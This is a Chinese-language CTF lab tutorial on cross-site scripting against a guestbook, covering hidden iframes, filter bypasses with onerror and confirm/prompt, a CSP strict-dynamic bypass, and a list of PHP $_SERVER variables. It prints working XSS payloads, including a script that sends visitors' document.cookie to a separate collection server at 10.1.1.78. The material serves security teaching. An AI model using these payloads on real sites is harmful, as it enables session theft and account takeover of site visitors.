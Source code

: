 # CTF - XSS跨站脚本攻击

[TOC]

## XSS跨站漏洞利用

### 利用XSS跨站漏洞加载恶意网页

将恶意网页（假设`http://www.heetian.com`）放入留言系统数据库，并在用户端执行；

1. 增加一留言，并在留言内容中改为 `<iframe src="http://www.heetian.com"></iframe>`，测试返回效果。

   ![image-20200823180011273](image\image-20200823180011273.png)

   ![158](image\6266eea1-494b-4ee9-bb5e-449af8ee0c88.png)

2. 隐藏恶意网页。

   增加留言，内容包含以下语句：`<iframe src=http://www.baidu.com width="0" height="0"></iframe>`，观察返回状态，网页被执行，但未在留言系统界面中显示。这样如果是攻击脚本就可以用此方法隐藏自己。



### 利用XSS跨站漏洞窃取用户cookie

1. 添加留言，包含以下内容：`<script>document.write(document.cookie)</script>`

   结果如图所示：

      ![159](image\9fc9bb1c-c181-4051-99ac-fcd038cd4542.png)

2. 添加留言，包含以下内容：`<script>alert(document.cookie)</script>`

   观察显示的cookie有什么不同？

      ![img](image\3559096b-6323-488e-a349-41a55ea11944.jpg)

3. 搭建WEB服务器，以便进一步保存浏览用户的cookie。

   添加留言，包含以下内容：`<script>document.write("<iframe width=0 height=0 src='http://10.1.1.78/cookie.asp?cookie="+document.cookie+"'></iframe>");</script>`

      ![164](image\c72f833f-e10e-424d-adb7-151a49e19612.png)

4.  提交留言后观察目标服务器页面，没有看到异常现象，如下图所示：

     ![165](image\72a8b172-63ae-4ea4-ac35-191518cada89.png)

   再打开本地页面，查看接收浏览用户的cookie接收情况：

      <img src="image\765d19f7-c6a4-487f-9ceb-de269574aea4.png" alt="img"  />

   可以看到，已经接收到用户的cookie了，这些cookie包含了所有浏览该页面的信息，如果是登录用户的话，cookie包含了用户的用户名与密码信息。



[返回目录](#CTF - XSS跨站脚本攻击)

------



## XSS 绕过

### 利用 onerror 绕过 `<script>` 过滤

![img](\image\63dc32e6-6d02-4bb2-aca4-f45821130178.png)

preg_match 函数用于执行一个正则表达式匹配。

onerror 事件在视频/音频（audio/video）数据加载期间发生错误时触发。

绕过方式：

```
<audio src="" onerror=alert("XSS")>
```



### 利用 confirm、prompt 代替 alert

![img](image\a91d7773-cd54-486f-876a-a1a31b152eb7.jpg)

preg_match 函数用于执行一个正则表达式匹配。

绕过方式：

```
<script>confirm("xss")</script>
<script>prompt("xss")</script>
```



### $_SERVER（超全局变量部分含义）

1. $_SERVER['REMOTE_ADDR'] *//当前用户 IP 。 //[REMOTE_ADDR] => ::1*
2. $_SERVER['REMOTE_HOST'] *//当前用户主机名* 
3. $_SERVER['REQUEST_URI'] *//URL   //   [REQUEST_URI] => /objqt/test.php*
4. $_SERVER['REMOTE_PORT'] *//端口。 // [REMOTE_PORT] => 52902*
5. $_SERVER['SERVER_NAME'] *//服务器主机的名称。 //  [SERVER_NAME] => localhost*
6. $_SERVER['PHP_SELF']*//正在执行脚本的文件名*  
7. $_SERVER['SERVER_PROTOCOL'] *//请求页面时通信协议的名称和版本 //[SERVER_PROTOCOL] => HTTP/1.1*
8. $_SERVER['REQUEST_METHOD']*//访问页面时的请求方法  //[REQUEST_METHOD] => GET*
9. $_SERVER['DOCUMENT_ROOT'] *//当前运行脚本所在的文档根目录 //  [DOCUMENT_ROOT] => E:/php/wamp/www*
10. $_SERVER['HTTP_HOST'] *//当前请求的 Host: 头部的内容。 //  [HTTP_HOST] => localhost:8080*
11. $_SERVER['SCRIPT_FILENAME'] *#当前执行脚本的绝对路径名。 //  [SCRIPT_FILENAME] => E:/php/wamp/www/objqt/test.php*
12. $_SERVER['SERVER_PORT'] *#服务器所使用的端口 // [SERVER_PORT] => 8080*
13. $_SERVER['SCRIPT_NAME'] *#包含当前脚本的路径。这在页面需要指向自己时非常有用。 //[SCRIPT_NAME] => /objqt/test.php*



### CSP绕过

CSP：实质就是白名单制度，它规定哪些外部资源可以加载和执行。它的实现和执行全部由浏览器完成。资源加载通过”script-src“、”style-src” 等选项来限制外部资源的加载。

”script-src”限制外部脚本的加载。

strict-dynamic 特性允许**将信任关系传递给由受信任的script动态生成的脚本**，忽略了script-src的白名单，使得之后生成的脚本可以执行。

![img](image\8439fc7d-4c29-4487-b528-aac5c3fc40c2.gif)



基于Ajaxify框架， Ajaxify框架会将所有带有 `class=document-script` 属性的 `<div>` 标签转化为 JavaScript 脚本元素。CSP中的strict-dynamic 特性允许将信任关系传递给动态生成的脚本，可以绕过script-src白名单限制，使得当从客户端插入JS时可以被解释执行。

利用代码：

```
<div class=document-script>alert(1)</div>
```

